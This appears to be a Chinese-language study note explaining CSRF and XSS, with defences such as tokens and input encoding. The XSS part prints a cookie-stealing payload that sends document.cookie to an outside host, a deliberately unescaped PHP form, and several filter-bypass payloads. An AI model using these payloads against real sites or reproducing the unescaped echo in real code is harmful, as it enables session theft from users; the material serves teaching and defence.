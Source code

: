 # XSRF(或叫做CSRF)和XSS
CSRF(Cross-site request forgery)跨站请求伪造：通过伪装来自受信任用户的请求来利用受信任的网站。
XSS(Cross Site Scripting)跨站脚本攻击
CSRF重点在请求,XSS重点在脚本

CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。
XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为

* ### CSRF
    + CSRF攻击原理
        1. 用户登录受信任网站A，浏览器保存了A的Cookie
        2. 用户在没有登出A网站的情况下，访问危险网站B
        3. B在用户不知情的情况下向第三方站点A发起一个请求R
        4. 因为A没有做防止CSRF的措施，A无法判断请求是用户发出的还是其他站点发出的。
        5. 浏览器会自动带上用户在A网站的Cookie，所以A网站会当做用户在发起请求R。

        + 总结
        CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

    + CSRF的防御
    一般在服务端进行CSRF防御，效果也比较好(客户端也可以)
    服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数。
    （因为攻击者无法读取非同源站点的Cookie作为本次请求的参数，注意，是参数不是Cookie，浏览器还是会自动带上Cookie，服务器会验证参数和Cookie值是否相同）
        1. Cookie Hashing(所有表单都包含同一个伪随机值)：在表单里增加Hash值，以认证这确实是用户发送的请求。
        `<input type=”hidden” name=”hash” value=”<?=$hash;?>”>`
        2. One-Time Tokens(不同的表单包含一个不同的伪随机值，在页面上生成一个Token，发请求的时候把Token带上。处理请求的时候需要验证Cookies+Token。)
        3. 验证码：用户填写图片验证码，易用性不太好。


* ### XSS
    + 原理
        XSS本质是Html注入，和SQL注入差不多。
        XSS跨站攻击就是在网页里面埋入恶源代码，劫持用户的信息投递到预设的网站上去的一种黑客攻击手段。
        举个栗子：把网页比作一瓶液体，普通用户看来透明的应该可以喝，就直接喝了（访问），黑客XSS攻击者就相当于在水里投一种无色无味的毒药，你喝掉就被控制了，主动把身上的钱啊（cookie） 银行卡密码（存储的账号密码）啊都交了出来，甚至你自己还不知道。
        ```
        # 这里是一个表单输入框，正常应该输入一个地址，但是攻击者可能输入一段html代码，如：
        #   "/> <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--
        <form>
        <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />
        <input type="submit" value="Submit" />  
        </form>

        # 于是，代码变为如下，目的是获取本机存储的该域名的cookie发送到另一个地址
        <form>
        <input style="width:300px;" type="text" name="address1" value=""/>
        <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--" />
        <input type="submit" value="Submit" />  
        </form>
        ```
    + 类型
        + 反射型XSS，又称非持久型XSS：将恶意的脚本附加到URL地址的参数中，一般是将构造好的URL发给受害者，是受害者点击触发，而且只执行一次，非持久化。
        + 储存型XSS，也就是持久型XSS：攻击者事先讲恶意JavaScript代码上传或存储到漏洞服务器中，只要受害者浏览包含此恶意的代码的页面就会执行恶意代码。

    + 防范手段
        + 过滤：对诸如< script>、< img>、< a>等标签进行过滤。
        + 编码：像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
        + 限制：xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。
    
        + 绕过
        + 大小写绕过
        这个绕过方式的出现是因为网站仅仅只过滤了< script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。
        
        + 利用过滤后返回语句再次构成攻击语句来绕过
        网站可能过滤了 script标签，我们可以在script关键字中间嵌套script标签，中间的script被过滤删除之后，剩下的内容正好又构造了一个script标签。
        例如：<sCri< script>pt>alert("hey!")</scRi</script>pt>
        
        + 利用其它标签
            + < img>：我们指定的图片地址不存在，就一定会发生错误，会执行onerror。
            http://192.168.1.102/xss/example4.php?name=<img src='w.123' onerror='alert("hey!")'>
            + < a onmousemove=’do something here’> ：当用户鼠标移动时即可运行代码
            + < div onmouseover=‘do something here’> ： 当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）
        
        + 编码脚本代码绕过关键字过滤
        服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。
        不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行。
        例如alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)。
        http://192.168.1.102/xss/example5.php?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>

        + 主动闭合标签实现注入代码
        填入的参数放到了script脚本的变量里面，可以先加双引号将变量左边的双引号关闭，然后执行我们的脚本，然后再加双引号闭合原变量右边的双引号。
        ```
        # 访问 http://localhost:81/xss.php?name=hacker
        <script>
            var $a= "hacker";
        </script>

        # 此时不传hacker，改为 http://localhost:81/xss.php?name=";alert("I amcoming again~");"
        <script>
            var $a= "";alert("I amcoming again~");"";
        </script>
        ```

